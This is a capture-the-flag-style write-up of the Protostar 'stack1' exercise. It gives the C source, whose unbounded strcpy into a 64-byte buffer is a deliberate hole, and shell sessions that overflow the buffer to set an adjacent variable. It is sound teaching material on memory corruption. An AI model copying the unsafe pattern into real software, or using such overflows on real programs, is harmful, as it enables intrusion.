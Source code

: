 #### Stack1

###### About

- This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

- This level is at ``/opt/protostar/bin/stack1``

- Hints
	- If you are unfamiliar with the hexadecimal being displayed, ``man ascii`` is your friend.
	- Protostar is little endian

``stack1.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack1 AAA
Try again, you got 0x00000000
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./stack1 `python -c "print 'A'*68"`
Try again, you got 0x41414141
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./stack1 `python -c "print 'A'*64 +'\x64\x63\x62\x61'"`
you have correctly got the variable to the right value
user@protostar:/opt/protostar/bin$
```
